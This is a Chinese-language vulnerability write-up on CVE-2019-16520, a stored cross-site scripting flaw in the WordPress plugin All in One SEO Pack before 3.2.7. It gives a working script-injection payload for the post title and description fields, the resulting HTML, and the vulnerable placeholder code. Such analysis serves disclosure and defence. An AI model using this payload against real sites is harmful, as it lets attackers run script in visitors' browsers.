 ```yaml
---
title: "（CVE-2019-16520）WordPress Plugin - All in One SEO Pack 储存型xss"
id: zhfly3251
---
```


# （CVE-2019-16520）WordPress Plugin - All in One SEO Pack 储存型xss

## 一、漏洞简介

适用于WordPress的3.2.7之前的“all-in-one-seo-pack plugin”插件（aka All in One SEO Pack）易受存储XSS的影响，原因是该插件通过不安全的占位符替换提供的帖子的SEO特定描述的编码不正确。

## 二、漏洞影响

wordpress <= 3.2.6

## 三、复现过程

### 1、利用过程

创建或编辑帖子时，可以设置以下值来显示漏洞：

```
title: "test_aiosp_title&<>"';><script src='data:text/javascript,alert(1)'></script>a"
Description: test_aiosp_desc&<>"'; pt:%post_title% wp_title:%wp_title% bd:%blog_description% sd:%site_description% bt: %blog_title% st: %site_title% desc:%description% 
```

当帖子被保存并以后访问时，将显示JavaScript警报弹出窗口。生成的HTML页面将包含以下代码

```
<title>test_aiosp_title&amp;&lt;&gt;&quot;&#039;;&lt;script src=&#039;data:text/javascript,alert(1)&#039;&gt;&lt;/script&gt; | XXXXXXX</title>

<!-- All in One SEO Pack 3.2.5 by Michael Torbert of Semper Fi Web Design[197,235] -->

<meta name=“description”  content=“test_aiosp_desc&amp;&quot;&#039;; pt:test_aiosp_title&<>”’;<script src=‘data:text/javascript,alert(1)’></script> wp_title:test_aiosp bd: sd: bt: XXXXXXX st: XXXXXXX desc:%description%" /> 
```

### 2、详细分析

该插件将几个字段添加到可以创建或编辑帖子的页面上。这样可以为每个帖子设置自定义标题和描述。此处提供的信息将插入meta到帖子页面上的相应-tags中。在将字段的值插入页面的HTML中之前，先对这些字段的值进行转义。

但是，在描述字段中，可以插入占位符，这些占位符在输出前已被某些值替换。也可以为前面提到的标题字段设置一个占位符。相关代码可以在 aioseop_class.php第4546-4548行中找到：

```
if ( false !== strpos( $description, '%post_title%', 0 ) ) {
    $description = str_replace( '%post_title%', $this->get_aioseop_title( $post, false ), $description );
} 
```

当攻击者在标题字段中设置有效负载并在描述字段中为标题字段的值提供占位符时，标题字段的原始值将被插入描述中。此后该描述未经过清理或编码。这使攻击者可以突破meta-tag属性并插入任意HTML和JavaScript。